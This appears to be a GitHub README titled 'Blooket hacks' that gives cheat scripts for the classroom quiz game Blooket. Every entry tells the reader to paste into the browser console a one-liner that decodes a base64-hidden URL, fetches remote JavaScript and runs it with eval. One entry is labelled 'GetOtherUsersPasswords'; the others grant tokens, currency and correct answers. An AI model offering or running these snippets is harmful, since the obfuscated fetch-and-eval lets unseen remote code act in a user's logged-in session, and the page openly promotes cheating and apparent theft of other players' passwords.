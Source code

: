 # Blooket
blooket hacks

## Global


## <a id="addTokens.js"></a>addTokens.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```


## <a id="spamOpenBoxes.js"></a>spamOpenBoxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="sellDupeBlooks.js"></a>sellDupeBlooks.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTM2L2dsb2JhbFNlbGxEdXBlQmxvb2tzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="getEveryAnswerCorrect.js"></a>getEveryAnswerCorrect.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEV2ZXJ5QW5zd2VyQ29ycmVjdC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```



## Gold



## <a id="chest-esp.js"></a>chest-esp.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRDaGVzdEVTUC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="Getgold"></a>Getgold.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRHZXRHb2xkLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## Factory 

## <a id="GetMegaBot"></a>GetMegaBot.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRNZWdhQm90Lmpz')).then((res) => res.text().then((t) => eval(t)))
```
## <a id="GetCash"></a>GetCash.js

Open console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRDYXNoLmpz')).then((res) => res.text().then((t) => eval(t)))
```


## Crypto



## <a id="GetCrypto"></a>GetCrypto.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L2NyeXB0b0dldENyeXB0by5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
## <a id="GetOtherUsersPasswords"></a>GetOtherUsersPasswords.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2NyeXB0b0hhY2tQYXNzd29yZHMuanM=')).then((res) => res.text().then((t) => eval(t)))
```


## Tower Defence

## <a id="ChangeGameRound"></a>ChangeGameRound.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RkQ2hhbmdlR2FtZVJvdW5kLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="ClearEnemies"></a>ClearEnemies.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3RkQ2xlYXJFbmVtaWVzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="GetCash"></a>GetCash.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3RkR2V0Q2FzaC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```


## Tower Of Doom


## <a id="AddCoins"></a>AddCoins.js
Open Console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RvZEFkZENvaW5zLmpz')).then((res) => res.text().then((t) => eval(t)))
```
## <a id="LowerAllEnemyStats"></a>LowerAllEnemyStats.js
Open Console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTkyL3RvZExvd2VyQWxsRW5lbXlTdGF0cy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```




## More hacks are coming soon if someone coments on this with more working hacks i will add them
